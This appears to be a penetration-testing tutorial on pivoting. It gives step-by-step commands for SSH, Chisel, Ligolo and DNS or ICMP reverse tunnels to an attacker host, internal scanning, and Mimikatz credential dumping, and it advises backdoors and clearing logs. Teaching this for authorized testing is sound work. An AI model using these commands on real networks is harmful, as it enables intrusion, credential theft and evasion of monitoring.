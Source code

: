 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

2. Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

3. Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

4. Establish Pivoting
    - SSH Tunneling (Dynamic and Local Port Forwarding)
        - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
        - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
    - ProxyChains
        - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
        - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
    - Chisel (Fast TCP/UDP Tunneling)
        - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
        - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
        - Use ProxyChains with Chisel for further tunneling.
    - Ligolo (Auto Route Creation)
        - On attacker's machine: `./ligolo -reverse -listen :9090`
        - On compromised machine: `./ligolo -connect attacker-ip:9090`
    - Metasploit Pivoting
        - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
        - Use socks4a module to enable ProxyChains:
          ```bash
          use auxiliary/server/socks4a
          set SRVPORT 1080
          exploit
          ```
    - SSHuttle Pivoting
        - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
    - Plink (PuTTY Link) Pivoting
        - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
    - RDP Pivoting
        - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
    - ICMP Tunneling
        - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
    - DNS Tunneling
        - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`
  
5. Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.
